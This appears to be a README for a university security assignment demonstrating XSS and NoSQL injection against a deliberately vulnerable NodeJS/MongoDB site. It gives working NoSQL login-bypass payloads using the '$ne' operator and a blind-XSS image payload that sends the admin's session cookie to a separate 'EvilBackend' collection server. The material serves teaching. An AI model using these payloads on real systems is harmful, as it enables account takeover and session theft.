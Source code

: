 # ISEC3004-Assignment<br>
<br>
## Introduction<br>
This is a repository for ISEC3004 Assignment. The assignment focuses on demostrating XSS and NoSQL Injection attacks.<br>
<br>
<br>
index.html - Main page for the website<br>
<br>
Backend - Backend Server<br>
This backend acts as a server for the website. It is written in NodeJS and ExpressJS. It uses MongoDB as the database.<br>
<br>
To run the backend server, navigate to the directory and run the following commands:<br>
```console 
npm install
nodemon index.js
```
<br>
EvilBackend - Backend Server for Blind XSS<br>
This backend acts as the server used by the bad actor to hunt for sesstion cookies. It is written in NodeJS and ExpressJS.<br>
<br>
To run the backend server, navigate to the directory and run the following commands:<br>
```console 
npm install
nodemon index.js
```
<br>
<br>
NoSql - NoSQL Injection Attack<br>
1. A bad actor can use the following payload to login as a different user if the email is known.<br>
`"password": {"$ne": null}` <br>
2. If the email is unknown the following payload will log you in as the first user in the database (In most cases the admin) <br>
`"email": {"$ne": null}, "password": {"$ne": null}`<br>
<br>

XSS - XSS Attack<br>
When a user account is created with a XSS payload such as: <br>
`<img src="invalid-url" onerror="this.src='http://localhost:5001/hack?cookie='+document.cookie; this.removeAttribute('onerror');"></img>` as the name.<br>
<br>
The payload will be executed when the Administrator of the system loads the admin page. The payload will send the session cookie to the bad actor's server. The EvilBackend server will then display the session cookie on the page and send a Email to the bad actor as a notification.<br>